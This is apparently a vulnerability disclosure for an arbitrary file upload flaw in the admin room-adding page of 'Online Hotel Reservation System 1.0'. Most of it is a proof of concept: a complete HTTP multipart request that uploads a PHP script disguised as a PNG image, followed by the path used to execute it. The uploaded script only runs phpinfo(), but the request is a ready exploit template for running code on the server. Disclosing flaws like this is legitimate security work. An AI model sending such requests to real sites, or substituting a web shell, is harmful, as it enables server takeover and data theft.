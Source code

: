 ## Online Hotel Reservation System has an File upload vulnerability

## Affected version:

Online Hotel Reservation System - 1.0

## Software:

https://code-projects.org/simple-online-hotel-reservation-system-in-php-with-source-code/

## Vulnerability File:

HOR/admin/room.php

## Description:

The administrator login interface of this online hotel system has an arbitrary file upload vulnerability. Attackers can upload malicious script files by modifying file contents and file names.

Status: Moderate

POC

```
POST /HOR/admin/add_room.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=----geckoformboundary8e25443fbbc19237fe585950ca860915
Content-Length: 568
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/HOR/admin/add_room.php
Cookie: PHPSESSID=db5no8dvip725j5p64esp3qbge
Upgrade-Insecure-Requests: 1
Priority: u=0, i

------geckoformboundary8e25443fbbc19237fe585950ca860915
Content-Disposition: form-data; name="room_type"

Jr. Suite
------geckoformboundary8e25443fbbc19237fe585950ca860915
Content-Disposition: form-data; name="price"

12
------geckoformboundary8e25443fbbc19237fe585950ca860915
Content-Disposition: form-data; name="photo"; filename="web.php"
Content-Type: image/png

<?php phpinfo();?>
------geckoformboundary8e25443fbbc19237fe585950ca860915
Content-Disposition: form-data; name="add_room"


------geckoformboundary8e25443fbbc19237fe585950ca860915--

```

After a successful upload, access the following path:

```
/HOR/photo/web.php
```

image:

![image](https://github.com/foreverfeifei/HOR-CVE/blob/main/Pasted%20image%2020251021141943.png)


